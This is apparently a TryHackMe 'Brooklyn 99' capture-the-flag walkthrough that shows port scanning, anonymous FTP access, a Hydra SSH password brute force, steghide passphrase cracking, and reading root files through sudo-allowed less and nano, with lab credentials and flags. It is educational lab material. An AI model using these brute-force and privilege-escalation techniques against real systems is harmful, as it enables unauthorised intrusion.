



# TryHackMe: Brooklyn 99 Walkthrough

Here I go trying out a new CTF. This one is based on the TV show "Brooklyn 99". I really enjoy this show, let's see if I can say the same about this CTF.

## Enumeration:
	
Always, before I begin exploring, I like to enumerate as much of the machine as possible before I do manual exploring. It gives me a large area to explore, so that I can hopefully see the "big picture" of the website.

### NMap:
	
To kick things off, I began with an NMap scan:
	
```shell
nmap -vv -sC -sV -sS -oN nmap_out.txt {MACHINE_IP}
```

The scan returned the following ports:
	
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

I have the full results of the scan here: [nmap_out.txt](./nmap_out.txt)

The Nmap results show that an anonymous login to FTP is possible. We will explore that later...

### GoBuster:
	
I then performed a gobuster search:

```shell
gobuster -e -t 25 -u {MACHINE_IP} -w common.txt -x .php,.txt,.js,.html -s 200,204,301,302,307
```

It returned the following:
	
```
http://{MACHINE_IP}/index.html (Status: 200)
```

I visited the page, and got this:



Not much to the site, just a background image of the cast of Brooklyn 99. I wouldn't be surprised if this is a steganography puzzle. Let me check the source-code:



...and there it is, a less-than-subtle hint placed in the source code referring to steganography!

I went ahead and downloaded the background image. If you look in the source code, you can see the url:
	
```html
<style>
body, html {
  height: 100%;
  margin: 0;
}

.bg {
  /* The image used */
  background-image: url("brooklyn99.jpg"); <!--this indicates that the url is:
{MACHINE_IP}/brooklyn99.jpg -->

  /* Full height */
  height: 100%; 

  /* Center and scale the image nicely */
  background-position: center;
  background-repeat: no-repeat;
  background-size: cover;
}
</style>
```

Saved the file as **stegopic.jpg** on my PC.

I'll get back to the steganography later. I'm very interested in the **"Anonymous FTP Login"** that I saw earlier.

### FTP Anonymous Login:
	
I logged in to the FTP server (I set my username as "Anonymous", and did not enter a password):
	
```shell
tryhackme/brooklyn99$ ftp {MACHINE_IP}
Connected to {MACHINE_IP}.
220 (vsFTPd 3.0.3)
Name ({MACHINE_IP}:{username}): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

I performed an **"ls -la"** command, and returned the following:
	
```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 **note_to_jake.txt**
226 Directory send OK.
```

We have a file: **note_to_jake.txt**, moved it to my PC with the following command:
	
```
ftp> get note_to_jake.txt
```

I exited FTP, and looked at the text file contents:
	
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### Password Cracking with Hydra:

This message indicates that Jake's account has a weak password, and therefore, we should be able to crack it with a password cracker.

Given this information, I set up Hydra to attempt to crack Jake's password (assuming SSH?), and using the rockyou.txt wordlist:
	
```
hydra -t 64 -l jake -P rockyou.txt {MACHINE_IP} ssh
```

...and in less than 20 seconds, we have Jake's password:
	
```
[22][ssh] host: {MACHINE_IP}   login: jake   password: 987654321
```

Now that we have Jake's username and password, we can login to SSH through his credentials.

```shell
ssh jake@{MACHINE_IP}
jake@{MACHINE_IP}'s password: 
jake@brookly_nine_nine:~$ 
```

I am in!

### Finding the User Flag:

I explored around the terminal a little bit. There was nothing in the current directory, so I explored the other directories.
	
```shell
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ 

```

I found a file called **"user.txt"** in the **"/home/holt"** directory. I looked inside, and got this:

```
ee11cbb19052e40b07aac0ca060c23ee
```

...and that is the User Flag!

### Looking for Privelege Escalation:
	
To begin with searching for PE vectors, it is always a good idea to use the command: **sudo -l**

This will bring up any files that the user can run with sudo priveleges. Here are the results:
	
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

It appears that we can use the **"less"** program with sudo rights. **less** is a program that outputs the contents of a file, one page at a time, to make it easier to read through long files in the terminal. 

Since I can run it with sudo rights, I should be able to read any file I want as long as I use the **less** command to do it.

Most of the time on these CTFs, they store the Root Flag in the **"/root/"** directory. Since the User Flag was named **"user.txt"**, perhaps the Root Flag will be named **"root.txt"**?

So I tried the following command:
	
```
sudo less /root/root.txt
```

and I got the following:
	
```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
/root/root.txt (END)
```

There you have it! We are done!

# End of CTF.


# Appendix: Going the Steganography Route

On the CTF description, it describes that there are at least 2 ways to root this machine. I figure that the other route involves steganography with the home page image. I'm going to try that route as well. Perhaps we can learn something along the way.

Here is the homepage image we extracted earlier:
	


I ran the **strings** command on the image, but did not find anything of interest.

Then I tried **exiftool**, and got the following:
	
```
ExifTool Version Number         : 11.88
File Name                       : stegopic.jpg
Directory                       : .
File Size                       : 68 kB
File Modification Date/Time     : 2021:02:24 21:12:26-05:00
File Access Date/Time           : 2021:02:25 07:54:47-05:00
File Inode Change Date/Time     : 2021:02:24 21:12:26-05:00
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
```

Nothing really interesting there.

I then tried **steghide**:
	
```
steghide extract -sf stegopic.jpg 
```

I was then asked for a passphrase. So now I just need to find the passphrase.

I downloaded a program called  on GitHub. It is an incredibly fast StegHide password cracker. After downloading StegSeek, I ran it:
	
```
stegseek stegopic.jpg rockyou.txt

StegSeek version 0.5
Progress: 0.52% (722118 bytes)           

[i] --> Found passphrase: "admin"
[i] Original filename: "note.txt"
[i] Extracting to "stegopic.jpg.out"

```

We have the passphrase: **admin** let's use it on StegHide.

```
steghide extract -sf stegopic.jpg 
Enter passphrase: admin
wrote extracted data to "note.txt".
```

Here are the contents of **note.txt**:
	
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Now, I can log in as Holt, the Captain of the 99.

```
ssh holt@10.10.49.139
```

I check the output of **sudo -l**:
	
```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

Same idea as with Jake's account. But this time we can run the **Nano** text editor with root priveleges. So I should be able to read the **root.txt** file like this:
	
```
sudo nano /root/root.txt
```

There we go!



Now, we know the two ways to root this machine.

I hope you enjoyed and found this helpful.
